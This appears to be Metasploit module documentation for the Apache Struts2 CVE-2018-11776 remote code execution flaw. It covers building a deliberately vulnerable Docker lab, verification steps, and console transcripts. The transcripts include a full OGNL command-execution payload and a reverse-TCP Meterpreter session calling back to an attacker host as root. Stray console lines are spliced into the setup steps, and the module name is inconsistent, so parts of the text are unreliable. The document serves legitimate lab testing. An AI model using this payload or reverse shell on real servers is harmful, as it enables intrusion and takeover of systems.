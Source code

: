 CVE-2018-11776 is a critical vulnerability in the way Apache Struts2 handles namespaces and redirection, which permits an attacker to execute [OGNL(https://commons.apache.org/proper/commons-ognl/language-guide.html) remotely.  Using OGNL, the attacker can modify files and execute commands.

The vulnerability was reported to Apache by [Man Yue Mo] from Semmle in April 2018.  It was widely publicized in August 2018, with PoCs appearing shortly thereafter.

## Vulnerable Application

  The Struts showcase app, with a slight adaptation to introduce the vulnerability, works reliabliy as a practice environment.
  *@hook-s3c* did an amazing job with [their writeup](https://github.com/hook-s3c/CVE-2018-11776-Python-PoC/blob/master/README.md), which I'll include exerpts of here:

  1. From a stock Ubuntu VM, install docker:
  ```
  sudo apt update && sudo apt install docker.io
  ```

  2. Download a vulnerable Struts showcase application inside a docker container:
  ```
  sudo docker pull piesecurity/apache-struts2-cve-2017-5638
  sudo docker run -d --name struts2 -p 32771:8080 piesecurity/apache-struts2-cve-2017-5638
  CONTAINER_ID=`sudo docker ps -l -q`
  ```

  3. Now that the container is running, open a terminal inside of it:
  ```
  sudo docker exec -it $CONTAINER_ID /bin/bash
  ```

  4. From within the container, install your text editor of choice and modify the Struts configs:
  ```
  sudo apt update && sudo apt install nano
  nano /usr/local/tomcat/webapps/ROOT/WEB-INF/classes/struts.xml
  ```

  5. Update the struts config to add this to above line #11:
  ```
  <constant name="struts.mapper.alwaysSelectFullNamespace" value="true" />
  ```

  6. Update the same struts config file to add this above line #78:
  ```
      <action name="help">
          <result type="redirectAction">
              <param name="actionName">date.action</param>
          </result>
      </action>
  ```

  7. Still within the container, shutdown the environment:
  ```
  /usr/local/tomcat/bin/shutdown.sh
  ```

  8. Upon completion, the container will shutdown and you'll return to the host environment.  Restart the container, now with a vulnerable endpoint:
msf5 exploit(multi/http/struts2_namespace_ognl) > set LHOST 192.168.199.134
  ```
  sudo docker start $CONTAINER_ID
  ```

  Congratulations.  You now have a vulnerable Struts server.  If you're following these instructions, your server should be listening on 0.0.0.0:32771.  To confirm:
  ```
  INTERFACE=`ip route list 0.0.0.0/0 | cut -d' ' -f5`
  IPADDRESS=`ip addr show $INTERFACE | grep -Po 'inet \K[\d.]+'`
  PORT_NUM=`sudo docker port $CONTAINER_ID | sed 's/.*://'`
  echo "Struts container is listening on $IPADDRESS:$PORT_NUM"
  ```

## Verification Steps

  Confirm that check functionality works:
  - [ ] Install the application using the steps above.
  - [ ] Start msfconsole.
  - [ ] Load the module: ```use exploit/multi/http/struts_namespace_rce```
  - [ ] Set the RHOST.
  - [ ] Set an invalid ACTION: ```set ACTION wrong.action```
  - [ ] Confirm the target is *not* vulnerable: ```check```
  - [ ] Observe that the target is *not* vulnerable: ```The target is not exploitable.```
  - [ ] Set a valid ACTION: ```set ACTION help.action```
  - [ ] Confirm that the target is vulnerable: ```The target is vulnerable.```

  Confirm that command execution functionality works:
  - [ ] Set a payload: ```set PAYLOAD cmd/unix/generic```
  - [ ] Set a command to be run: ```set CMD hostname```
  - [ ] Run the exploit: ```run```
  - [ ] Confirm the output is the container ID of your docker environment, e.g: ```b3d9b350d9b6```
  - [ ] You will not be given a shell (yet).

  Confirm that payload upload and execution works:
  - [ ] Set a payload, e.g.: ```set PAYLOAD linux/x64/meterpreter/reverse_tcp```
  - [ ] Configure `LHOST` and `RHOST` as necessary.
  - [ ] Run the exploit: ```run```
msf5 exploit(multi/http/struts2_namespace_ognl) > set LHOST 192.168.199.134
## Options

  **TARGETURI**

  The path to the struts application.  Note that this does not include the endpoint.  In the environment above, the path is `/`.

  **ACTION**

  The endpoint name.  In the environment above, the endpoint is `help.action`.

## Scenarios

### Version of software and OS as applicable

  Checking a vulnerable endpoint, as installed in the above steps:

  ```
  msf > use exploit/multi/http/struts_namespace_rce
  msf5 exploit(multi/http/struts_namespace_rce) > set RHOSTS 192.168.199.135
  msf5 exploit(multi/http/struts_namespace_rce) > set RPORT 32771
  msf5 exploit(multi/http/struts_namespace_rce) > set ACTION help.action
  ACTION => help.action
  msf5 exploit(multi/http/struts_namespace_rce) > check
  [+] 192.168.199.135:32771 The target is vulnerable.
  ```

  Running an arbitrary command on the above-described environment:

  ```
  msf5 exploit(multi/http/struts_namespace_rce) > set VERBOSE true
  msf5 exploit(multi/http/struts_namespace_rce) > set PAYLOAD cmd/unix/generic
PAYLOAD => cmd/unix/generic
msf5 exploit(multi/http/struts_namespace_rce) > set CMD hostname
CMD => hostname
msf5 exploit(multi/http/struts_namespace_rce) > run
[*] Submitted OGNL: (#_memberAccess['allowStaticMethodAccess']=true).(#cmd='hostname').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())

[*] Command ran.  Output from command:
b3d9b350d9b6

[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/struts_namespace_rce) > 
  ```

  Getting a Meterpreter session on the above-described environment:

```

msf5 > use exploit/multi/http/struts2_namespace_ognl
msf5 exploit(multi/http/struts2_namespace_ognl) > set ACTION help.action
msf5 exploit(multi/http/struts2_namespace_ognl) > set RHOSTS 192.168.199.135
msf5 exploit(multi/http/struts2_namespace_ognl) > set RPORT 32771
msf5 exploit(multi/http/struts2_namespace_ognl) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/http/struts2_namespace_ognl) > set LHOST 192.168.199.134
msf5 exploit(multi/http/struts2_namespace_ognl) > run

[*] Started reverse TCP handler on 192.168.199.134:4444 
[+] Target profiled successfully: Linux 4.4.0-112-generic amd64, running as root
[+] Payload successfully dropped and executed.
[*] Sending stage (816260 bytes) to 192.168.199.135
[*] Meterpreter session 1 opened (192.168.199.134:4444 -> 192.168.199.135:47482) at 2018-08-31 13:15:22 -0500

meterpreter >
``` 


